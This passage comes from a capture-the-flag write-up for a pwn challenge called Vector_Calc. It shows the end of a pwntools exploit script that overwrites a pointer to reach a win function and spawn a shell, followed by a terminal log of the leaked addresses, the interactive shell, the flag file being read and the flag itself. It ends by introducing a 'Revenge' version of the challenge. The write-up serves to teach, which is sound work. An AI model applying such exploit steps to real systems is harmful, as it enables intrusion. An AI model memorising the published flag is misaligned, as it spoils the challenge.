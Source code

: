 ```py
log.info('w1n :' + hex(w1n))
log.info('system :' + hex(system))

enter(b'0', str(w1n).encode(), str(w1n).encode())
enter(b'3',str(v_list-16).encode(), str(v_list-16).encode())

printsum() # trigger

#io.sendline(b'exec 1>&0')
io.interactive()
```

spawn shell & get flag:


```bash
─   ~/CTF/wannagame/calc                                                                                                                       02:52:23 ─╮
╰─❯ python3 xpl.py                                                                                                                                          ─╯
[+] Opening connection to 45.122.249.68 on port 20017: Done
[*] '/home/w1n-gl0ry/CTF/wannagame/calc/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] pie_base :0x55a8e7c74000
[*] v_list array :0x55a8e7c77040
[*] sum :0x55a8e7c77080
[*] faves :0x55a8e7c77098
[*] w1n :0x55a8e7c749d2
[*] system :0x55a8e7c74100
[*] Switching to interactive mode
$ exec 1>&0
$ id
uid=1000(user) gid=1000(user) groups=1000(user)
$ cd /home/user
$ ls
chall
flag-fe1e4f5e9309c30148cdbb9349cc329eda4186949b59d42041340a5e4657f38a.txt
$ cat flag-fe1e4f5e9309c30148cdbb9349cc329eda4186949b59d42041340a5e4657f38a.txt
W1{Ooops,... Pointers, uint64_t, long long, what the heck are they?}
```
-> `FLAG: W1{Ooops,... Pointers, uint64_t, long long, what the heck are they?}`

### 2. Vector_Calc Revenge 

`Host: nc 45.122.249.68 20018`

`Description: I have fixed the w1n function :)`

 `Chall file:` [chall_revenge](https://github.com/w1n-gl0ry/CTF/blob/main/2023/miniCTF/pwn/VectorCALC-Revenge/chall_revenge) 
